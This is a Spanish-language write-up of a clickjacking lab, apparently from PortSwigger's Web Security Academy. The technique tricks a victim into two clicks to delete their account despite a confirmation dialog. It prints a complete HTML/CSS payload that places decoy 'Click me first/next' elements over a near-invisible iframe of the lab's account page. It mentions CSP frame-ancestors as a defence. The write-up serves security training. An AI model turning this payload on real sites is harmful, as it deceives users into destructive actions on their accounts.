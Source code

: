 En este laboratorio se presenta una defensa adicional contra el clickjacking: además de un token CSRF, el botón de eliminación de cuenta incluye una ventana de confirmación. Para explotar esta funcionalidad, el ataque debe engañar a la víctima para que realice dos clics consecutivos en ubicaciones específicas: uno para activar el botón de “Eliminar cuenta” y otro para confirmar la acción.

Para lograrlo, se estructura una página con dos capas señuelo (Click me first y Click me next), alineadas con los botones reales del formulario y del cuadro de confirmación, respectivamente. El iframe que contiene la página objetivo se vuelve prácticamente invisible gracias al uso de opacidad muy baja.

Una vez que la víctima interactúa con los dos elementos señuelo, el proceso completo de eliminación de cuenta se ejecuta con éxito, incluyendo la confirmación del diálogo. Este ataque demuestra cómo el clickjacking puede seguir siendo efectivo incluso en flujos de múltiples pasos si no se implementan defensas robustas adicionales como ‘**frame-ancestors**‘ o ‘**same-origin**‘ en ‘**Content-Security-Policy**‘.

Solucion
Aqui es donde se va ver el Click me First y el Click me Second
![Pasted_image_20250724235114.png](Imagenes/Pasted_image_20250724235114.png)
e aqui el payload 

<style>
	iframe {
        position:relative;
        width:500px;
        height: 600px;
        opacity: 0.001;
    }
    .firstClick {
        position:absolute;
        top: 497px;
        left: 80px;
    }
   .secondClick{
        position:absolute;
        top: 290px;
        left: 200px;
    }
</style>

<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a830098033a67dd8079033200b9003e.web-security-academy.net/my-account"></iframe>
